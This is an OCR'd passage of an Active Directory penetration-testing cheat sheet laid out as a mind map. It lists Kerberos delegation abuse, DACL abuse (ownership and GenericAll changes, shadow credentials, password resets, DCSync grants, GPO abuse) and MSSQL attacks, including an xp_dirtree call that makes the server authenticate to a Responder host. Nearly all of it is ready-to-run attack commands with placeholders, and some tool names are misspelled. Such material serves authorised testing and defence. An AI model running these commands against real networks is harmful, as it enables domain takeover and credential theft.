             *   `Invoke-Rubeus -Command "dump /nowrap"`
            *   `Invoke-Rubeus -Command "monitor /monitorinterval:10 /targetuser:dc1$ /nowrap"`
        *   Constrained
            *   `nxc ldap [DC_IP] [AUTH_STRING] --find-delegation`
            *   `getST.py [AUTH_STRING] -dc-ip [DC_IP] -spn [TRUSTED_SPN] -impersonate Administrator`
            *   [Without Protocol Transition](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained)
        *   Resource Delegation
            *   `nxc ldap [DC_IP] [AUTH_STRING] --find-delegation`
            *   Computer Account
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add computer "FAKE$" "password123"`
                *   `nxc smb [DC_IP] -u "FAKE$" -p password123 --delegate Administrator --self [CREDENTIAL_DUMPING_FLAGS]`
            *   User Account
                *   `rbcd.py [AUTH_STRING] -delegate-from '[USER]' -delegate-to '[DC_FQDN]$' -dc-ip '[DC_IP]' -action 'write'`
                *   `nxc smb [DC_IP] -u [USER] -p/H [PASS/HASH] --delegate Administrator [CREDENTIAL_DUMPING_FLAGS]`
    *   [DACL Abuse](https://www.thehacker.recipes/ad/movement/dacl/)
        *   Enumeration
            *   `bloodhound-python -u [USER] -p [PASS] [--hashes HASH] -ns [DC_IP] -d [DOMAIN] -c all --zip [--dns-tcp]`
            *   Errors                          → Select Individual Collection Methods / Attempt Blind Exploitation
            *   Mark Owned Users → Check Outbound Controls / All Shortest Paths → Exploit Privilege
        *   Exploitation
            *   Targeted Roasting
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add uac [USER] -f DONT_REQ_PREAUTH`
                *   `targetedKerberoast.py [AUTH_STRING] -dc-ip [DC_IP] -d [DOMAIN]`
            *   Set Ownership
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] set owner "[OBJECT]" "[USER]"`
            *   Set GenericAll / FullControl
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add genericall "[OBJECT]" “[USER]”`
                *   `dacledit.py -action 'write' -rights 'FullControl' -principal '[USER] -target '[OBJECT]' [AUTH_STRING]`
            *   Shadow Hash Steal 
                *   `certipy-ad shadow auto [AUTH_STRING] -account "[TARGET_USER]" -dc-ip [DC_IP]`
            *   Password Reset
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] set password "[TARGET_USER]" "[PASS]"`
            *   Add Group Member
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add groupMember "[GROUP]" “[USER]”`
            *   Set DCSync
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add dcsync "[USER]"`
                *   `secretsdumpy.py [AUTH_STRING]` → On DC
            *   GPO Escalation
                *   `pygpoabuse [AUTH_STRING] -gpo-id "[GPO_ID]"`
                *   From Local Session → `gpupdate /force`
            *   Enable Account
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] remove uac [USER] -f ACCOUNTDISABLE`
*   MSSQL
    *   `mssqclient.py [AUTH_STRING] [-windows-auth]`
    *   User Permissions
        *   `SELECT * FROM fn_my_permissions(NULL, 'SERVER');`
        *   `SELECT IS_SRVROLEMEMBER ('sysadmin');`
        *   Check Admin / Read / Write / Directives
    *   DB Dumping
        *   `enum_db` → `use [DB_NAME]`
        *   `SELECT TABLE_NAME FROM [DB].INFORMATION_SCHEMA.TABLES;`
        *   `SELECT * FROM [TABLE];`
    *   LLMNR
        *   `EXEC master..xp_dirtree '\\[RESPONDER_IP]\x'`
        *   Cracking        → `hashcat -m 5600`
        *   Service Hash → Impersonate Administrator + RCE
    *   User Impersonation